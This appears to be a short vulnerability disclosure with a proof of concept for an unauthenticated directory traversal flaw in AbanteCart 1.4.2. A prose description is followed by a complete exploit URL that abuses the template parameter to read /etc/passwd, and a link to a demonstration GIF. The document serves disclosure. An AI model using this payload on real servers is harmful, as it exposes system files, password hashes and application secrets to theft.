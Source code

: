 AbanteCart version 1.4.2 contains an unauthenticated directory traversal vulnerability in its handling of the template parameter. An attacker can supply a crafted value containing “../” sequences to traverse outside the intended template directory and retrieve arbitrary files on the web server. This flaw allows unauthenticated remote attackers to read sensitive system files—such as /etc/passwd—and other configuration files, potentially exposing usernames, hashed passwords, private keys, or application secrets



```
https://abantecart.local/index.php?rt=r/extension/page_builder/getControllerOutput&pageTemplate=novator&route=blocks%2Fsearch&template=..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd&layout_id=21&page_id=0&custom_block_id=0&render_mode=editor
```

![](https://github.com/4rdr/proofs/blob/main/gifs/abante-1.4.2-unauthenticated-file-traversal.gif?raw=true)
